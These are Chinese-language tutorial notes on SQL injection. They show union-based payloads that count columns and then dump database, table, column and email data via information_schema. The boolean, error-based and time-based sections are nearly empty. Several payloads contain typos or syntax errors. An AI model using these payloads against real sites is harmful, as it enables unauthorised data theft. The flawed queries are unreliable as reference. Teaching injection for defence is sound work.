 ## Union注入攻击
### 判断字段长度
使用order by num。其中num指的就是第几列，由于不存在第几行就会报错。比如 order by 4，这个就是指的是按照第四列排序，如果不存在第四行就会报错
### 判断相关字段类型
使用order by num 可以获取到有几列数据，现在就要获取到每列数据的数据类型。比如上面获取到的是四列数据。则这里就是用

```sql
union select 1,2,3,4 
```


看返回的是哪个数字就可以确认对应的列是可以返回数据的。
### 获取数据
已经获取到了4列数据，并且确认返回的是3，即

```sql
union select 1,2,3,4 
```


返回的是3则说明第三列可以存放变量的。
使用
1. 获取数据库

```sql
id=1 union select 1,2,database(),4
```


成功返回当前使用的数据库，返回的是sql
2. 获取表

```sql
unioon select 1,2,(select table_name from information_schema.tables table_name='sql' limit 0,1),4
```


成功获取返回得到数据表，emails.同时修改limit n,m中的n和m就可以得到不同的表名。
3. 获取字段名，以emails表为例子。
```sql
union select 1,2,(select column_name from information_schema.columns where table_schema='sql' and table_name = 'emails' limit 0,1;),3
```
修改limit值就可以得到全部的字段名

4. 查询数据
现在已经知道了数据库的名字、数据表的名字、字段的名字，要想获取到数据就变得很简单的。以上面获取到的数据库、数据表、字段为例。
```sql
    union select 1,2,(select email_id from sql.emails limit 0,1)
```
修改limit就可以获取到全部的数据



## boolean注入

返回结果，只有两种情况，比如

## 报错注入攻击
当sql语句出现错误的时候，如果前端没有进行过滤，就会将报错信息显示出到前端来。所以报错注入的本质，就是从报错中获取信息。

## 时间注入

```{.python .input}

```
